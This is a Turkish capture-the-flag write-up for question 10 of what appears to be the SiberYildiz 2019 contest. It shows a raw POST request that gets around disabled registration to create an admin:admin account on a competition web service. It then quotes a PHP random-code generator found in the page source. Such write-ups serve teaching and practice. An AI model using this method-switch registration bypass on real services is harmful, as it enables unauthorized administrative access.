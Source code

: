 <p><strong>FLAG:</strong> TWtCM1JTRVZydWpqekNVQzBNR09NUHM2SFh2VTNQbFA5WE5PenQx MWtHa3lDL21ydnJEVXFjZUQycHA1Vloxc0dockh1M28xZXBnd3FkUXJrdEd4REE9PQ==</p>

<ul>
	<li><strong>--Soru - 10 | Herşeyi de sana servis edecek değiliz</strong></li>
</ul>

<p>Servis gibi servis diye bir web uygulaması bizi karşılıyordu. Giriş yapma ve kayıt olma sayfaları vardı. Kayıt olma sayfasında kayıtların devre dışı bırakıldığı s&ouml;yleniyordu. Giris yap sayfasındada demo ile giris yap şeklinde bir link bulunuyordu.</p>

<p>Linkin Adresi: ws/ws.php<strong>?islem=girisYap&amp;kullaniciAdi=demo&amp;parola=demo</strong> şeklindeydi. Kullanıcı adını admin olacak şekilde değiştirdiğimizde kullanıcı mevcut değil şeklinde mesaj alıyorduk. Bizde islem paramteresini değiştirerek ws/ws.php<strong>?islem=kayitOL&amp;kullaniciAdi=admin&amp;parola=admin</strong> şeklinde bir request yaptık. Ancak sonu&ccedil; ge&ccedil;ersiz method şeklindeydi. &nbsp;Bu sefer y&ouml;ntem değiştirerek <strong>GET </strong>metodunu <strong>POST </strong>metoduyla değiştirince kayit olabildik.</p>

<pre class="brush:ps;">
POST /86d37fde1020e969eca3d6436bddb4f5-04/ws/ws.php?islem=kayitOl&amp;kullaniciAdi=admin&amp;parola=admin&amp;email=test HTTP/1.1
Host: 85.111.95.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://85.111.95.28/86d37fde1020e969eca3d6436bddb4f5-04/giris.html
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ttjj1d2lcpoagr63qp2596fqb4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

islem=kayitOl&amp;kullaniciAdi=admin&amp;parola=admin&amp;email=test</pre>

<p>Yani burada admin:admin şeklinde kayıt olduk. Giriş yaptığımızda admine &ouml;zel bir sayfa bizi karşılıyordu ve bizden kod istiyordu.</p>

<p>Buralar &ccedil;ok g&uuml;zel, giriş yap sen de gel bence.<br />
====================================<br />
Admin Kullanıcısı</p>

<p>Doğru cevabı girmen i&ccedil;in deneme hakkın 10 tane. Bulduğunda &ouml;d&uuml;l&uuml;n&uuml; de alacaksın. Ona g&ouml;re:&nbsp;&nbsp; <img alt="" src="http://mucahittopal.com/upload/dosya/SiberYildiz2019-Resimler/soru10-1.png" /><br />
&nbsp;&nbsp; &nbsp;<br />
Sayfanın kaynak kodunu g&ouml;r&uuml;nt&uuml;lediğimizde, yorum satırı olarak bir php kodu g&ouml;r&uuml;n&uuml;yordu.<br />
&nbsp;&nbsp; &nbsp;</p>

<pre class="brush:php;">

function generateRandomString($length = 6) {
&nbsp; &nbsp; $characters = &#39;0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ&#39;;
&nbsp; &nbsp; $charactersLength = strlen($characters);
&nbsp; &nbsp; $randomString = &#39;&#39;;
&nbsp; &nbsp; for ($i = 0; $i &lt;= $length; $i++) {
&nbsp; &nbsp; &nbsp; &nbsp; $randomString .= $characters[rand(0, $charactersLength - 1)];
&nbsp; &nbsp; }
&nbsp; &nbsp; return $randomString;
}
